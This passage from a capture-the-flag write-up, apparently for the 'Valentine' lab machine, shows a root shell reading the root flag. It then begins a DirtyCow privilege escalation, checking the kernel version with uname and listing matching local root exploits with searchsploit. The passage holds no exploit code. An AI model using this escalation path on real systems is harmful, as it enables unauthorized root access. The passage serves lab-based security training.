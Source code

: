     
    root@Valentine:/home/hype# id
    uid=0(root) gid=0(root) groups=0(root)
    root@Valentine:/home/hype# cat /root/root.txt
    f1bb6d75...
    

### Privesc 2: DirtyCow

We already suspect that this is an old kernel. `uname -a` confirms it:

    
    
    hype@Valentine:~$ uname -a
    Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
    

[Wikipedia](https://en.wikipedia.org/wiki/Dirty_COW) confirms this version is
vulnerable to DirtyCow. There’s a few options in searchsploit:

    
    
    root@kali:/opt/linux_privesc# searchsploit dirty
    ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
     Exploit Title                                                                                                                                                                      |  Path
                                                                                                                                                                                        | (/usr/share/exploitdb/)
    ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
    Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page                                                                                                                  | exploits/linux/dos/43199.c
    Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)                                                                  | exploits/linux/local/40616.c
    Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)                                                                     | exploits/linux/local/40847.cpp
    Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)                                                                                        | exploits/linux/local/40838.c
    Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                                                                  | exploits/linux/local/40839.c
    Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)                                                                                         | exploits/linux/local/40611.c
    Quick and Dirty Blog (qdblog) 0.4 - 'categories.php' Local File Inclusion                                                                                                           | exploits/php/webapps/4603.txt
    Quick and Dirty Blog (qdblog) 0.4 - SQL Injection / Local File Inclusion                                                                                                            | exploits/php/webapps/3729.txt
    ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
    Shellcodes: No Result
    